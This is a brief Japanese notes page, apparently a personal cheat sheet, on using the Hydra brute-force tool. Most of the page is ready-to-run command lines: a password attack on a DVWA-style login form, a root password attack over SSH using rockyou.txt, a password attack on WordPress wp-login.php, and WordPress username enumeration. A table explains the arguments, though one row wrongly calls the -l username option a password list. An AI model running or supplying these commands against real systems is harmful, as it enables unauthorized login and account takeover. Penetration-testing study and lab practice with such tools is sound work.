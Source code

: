 # Hydra

様々なプロトコルに対応したBruteForce Attackツール

* ワードリスト　`/usr/share/wordlists/metasploit`

## コマンド例

``` shell
    hydra 192.168.XXX.XXX -s 80 -l gordonb -P /usr/share/wordlists/metasploit/burnett_top1024.txt http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=セッションID;security=low:F=Username and/or password incorrect."
```

``` shell
    # sshでrockyou.txtを使ったパスワード総当たり
    hydra -l root -P rockyou.txt XXX.YYY.ZZZ.III ssh
```

| command                                                  | summary                                     |
| -------------------------------------------------------- | ------------------------------------------- |
| Hydra                                                    | hydraコマンド                               |
| `192.168.XXX.XXX -s 80`                                   | webアプリのアドレスとポート                 |
| `-l gordonb`                                             | パスワードリスト                            |
| `-P /usr/share/wordlists/metasploit/burnett_top1024.txt` | パスワードリスト                            |
| `/vulnerabilities/brute/`                                | リクエスト先のリソース                      |
| `:username=^USER^&password=^PASS^&Login=Login`           | クエリストリングの^USER^,^PASS^が変数に相当 |
| `:H=Cookie: PHPSESSID=セッションID;security=low`         | リクエストのヘッダ(Cookie)                  |
| `:F=Username and/or password incorrect."`                | ログイン失敗時のメッセージ |

## wordpressへのブルートフォースサンプル

``` shell
    sudo hydra XXXXXX -s 80 -l admin -P <passwordlist> http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:incorrect"
```

## ユーザー名のブルートフォース

``` shell
    hydra XXXXXX -L <namelist.txt> -p test http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=<error_message>"
```
